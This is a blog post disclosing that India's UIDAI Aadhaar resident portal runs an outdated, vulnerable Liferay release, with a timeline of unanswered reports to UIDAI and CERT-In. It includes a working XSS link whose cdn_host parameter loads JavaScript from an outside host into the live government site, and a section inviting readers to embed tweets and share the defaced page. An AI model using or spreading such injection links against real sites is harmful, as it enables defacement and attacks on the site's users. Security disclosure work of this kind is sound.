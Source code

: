 ```yaml
---
title: Aadhaar Vulnerability Public Disclosure
layout: post
image: aadhaar1.jpg
tags:
    - aadhaar
    - disclosure
    - sanitarypanels
    - 13ftwalls
---
```


# The Vulnerability

The UIDAI Resident Portal (with read access to entire Aadhaar Demographic data) is runing a vulnerable version
of LifeRay software. It is running LifeRay 6.1, which was declared End-of-Life in Febrary 2016.

This release includes multiple known vulnerabilities, including:

1.  A XSS issue, for which a PoC can be found at [resident.uidai.gov.in](https://resident.uidai.gov.in/?cdn_host=https://scan.bb8.fun) (Picture Credits: [@sanitarypanels](https://twitter.com/sanitarypanels))
2.  Multiple RCEs: See [issue-62](https://dev.liferay.com/web/community-security-team/known-vulnerabilities/liferay-portal-62) for eg.

In fact the release is so old it does not even appear on the ["Known Vulnerabilities"](https://dev.liferay.com/web/community-security-team/known-vulnerabilities) page on the LifeRay website; you have to go look at their [Archived Vulnerabilities](https://dev.liferay.com/web/community-security-team/known-vulnerabilities/liferay-portal-62).

# The PoC

You can find a simple Proof of Concept for the XSS issue at [resident.uidai.gov.in](https://resident.uidai.gov.in/?cdn_host=https://scan.bb8.fun).

The `cdn_host` parameter injects javascript from `$CDN_HOST/Resident-theme/js/custom.js`, in this case `https://scan.bb8.fun/Resident-theme/js/custom.js` which hosts a small snippet to overwrite the HTML of the page.

It shows up like:

![](/img/aadhaar1.jpg)

# Fun

The current script allows for embeding any tweet using a `tweet` parameter. To embed:

Go to any tweet, copy the part after `twitter.com` and pass it as the `tweet` parameter. For eg, to embed this tweet:

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">Breaking: Exclusive footage from inside <a href="https://twitter.com/UIDAI?ref_src=twsrc%5Etfw">@UIDAI</a>&#39;s IT department after media reports of Aadhaar data leaks. <a href="https://t.co/W7m9L0HvEX">pic.twitter.com/W7m9L0HvEX</a></p>&mdash; Aadhaar Compound Wall (@13footwall) <a href="https://twitter.com/13footwall/status/979301578686345216?ref_src=twsrc%5Etfw">March 29, 2018</a></blockquote>
<script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

1.  Look at the URL: `https://twitter.com/13footwall/status/979301578686345216`
2.  Copy `13footwall/status/979301578686345216` and pass it as the `tweet parameter`:
3.  The URL becomes`https://resident.uidai.gov.in/?cdn_host=https://scan.bb8.fun&tweet=13footwall/status/979301578686345216`
4.  [**SHARE IT**](https://resident.uidai.gov.in/?cdn_host=https://scan.bb8.fun&tweet=13footwall/status/979301578686345216)

# The Report

I initially reported this to `help@uidai.gov.in` in Jan 2017:

![](/img/aadhaar-report1.jpg)

Forgot all about it till Jan 2018, when someone mentioned I should try my luck with CERT-IN instead:

![](/img/aadhaar-report2.png)

# Update

There is [some confusion](https://twitter.com/kingslyj/status/1040985678408871937) regarding which version of LifeRay
is UIDAI running. They seem to be running 6.1.1, released in 2013-02-26.

The exact version is not relevant to the fact that UIDAI is:

-   running an unsupported release
-   which is 5 year old
-   not updating it despite being notified multiple times

_0800 16-Sep_: UIDAI seems to have patched the issue by putting a block on the `cdn_host` parameter. This still leaves them vulnerable to multiple vulnerabilities until they update to a supported release.

# Timeline

The vulnerability is still not fixed. Here is a complete timeline:

| Date        | What?                                                                                              |
| ----------- | -------------------------------------------------------------------------------------------------- |
| 16 Jan 2017 | Initially reported to `help@uidai.gov.in`. No response                                             |
| 21 Jan 2018 | Reported to `ceo@uidai.gov.in` and `info@cert-in.org.in`. No response                              |
| 19 Feb 2018 | Reminder sent to `ceo@uidai.gov.in` and `info@cert-in.org.in`                                      |
| 19 Feb 2018 | Acknowledgement from CERT                                                                          |
| 15 Mar 2018 | Reminder sent. No response                                                                         |
| 17 Mar 2018 | Notified [NCIIPC](mailto:rvdp@nciipc.gov.in)                                                              |
| 18 Mar 2018 | Confirmation from NCIIPC asking for more details. I replied back with a quote of previous exchange |
| 19 Mar 2018 | Confirmation from NCIIPC thanking me for the report.                                               |
| 19 Apr 2018 | Reminder sent to UIDAI asking for acknowledgement                                                  |
| 30 May 2018 | Reminder sent to NCIIPC and CERT asking for updates                                                |

The only change that I'm aware of since my initial report is that the website stopped declaring the [LifeRay version in a HTTP response Header](https://en.wikipedia.org/wiki/Security_through_obscurity).
